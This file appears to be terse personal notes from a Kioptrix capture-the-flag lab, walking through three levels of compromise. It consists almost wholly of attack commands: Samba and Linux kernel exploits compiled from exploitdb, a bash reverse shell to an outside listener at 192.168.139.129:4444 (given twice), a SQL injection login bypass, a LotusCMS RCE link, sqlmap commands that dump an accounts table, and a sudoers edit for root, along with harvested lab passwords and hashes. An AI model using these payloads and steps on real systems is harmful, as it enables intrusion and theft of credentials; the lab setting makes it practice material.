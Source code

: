 #### --Level 1-- 
enum4linux      192.168.139.128

##### searchsploit Samba 2.2

gcc /usr/share/exploitdb/exploits/multiple/remote/10.c -o exploitsamba

./exploitsamba -b 0 192.168.139.128

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

#### --Level 2--

SQL injection: admin'or '1'-'1

Welcome to the Basic Administrative Web Console

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

##### searchsploit Linux 2.6 Privilege Escalation CentOS

cp /usr/share/exploitdb/exploits/linux/local/9545.c 

localhost", "john", "hiroshima") or die(mysql_error());

mysql -u john -p
Enter password: hiroshima
show databases;

#### --Level 3--

nikto -host 192.168.139.131

##### LotusCMS-Exploit

https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh

	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

	dreg 		0d3eccfb887aabd50f243b3f155c0f85 Mast3r
	loneferret 	5badcaf789d3d1d09794d8f021f40f0e starwars

root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz 

loneferret@Kioptrix3:~$ export TERM=xterm 
Update: /etc/sudoers 
Then sudo su

Other method:
add hostname, 

http://kioptrix3.com/gallery/

Search db:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
Check table:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery
Dump password:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump
